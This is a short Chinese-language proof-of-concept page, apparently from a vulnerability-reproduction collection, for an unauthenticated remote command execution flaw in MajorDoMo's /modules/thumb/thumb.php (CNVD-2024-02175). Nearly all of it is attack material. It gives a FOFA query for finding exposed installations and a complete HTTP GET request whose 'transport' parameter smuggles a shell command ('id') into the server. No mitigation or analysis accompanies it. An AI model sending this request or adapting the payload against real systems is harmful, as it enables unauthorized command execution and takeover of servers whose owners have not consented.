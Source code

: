 ## MajorDoMo-thumb.php未授权RCE漏洞复现(CNVD-2024-02175)

MajorDoMo /modules/thumb/thumb.php接口处存在远程命令执行漏洞，未经身份验证的攻击者可利用此漏洞执行任意指令，获取服务器权限。

## fofa
```
app="MajordomoSL"
```

## poc
```
GET /modules/thumb/thumb.php?url=cnRzcDovL2EK&debug=1&transport=%7C%7C+%28echo+%27%5BS%5D%27%3B+id%3B+echo+%27%5BE%5D%27%29%23%3B HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
```
![image](../../images/89f477a7-2e73-4a27-863b-c3ba1fd701e6.png)

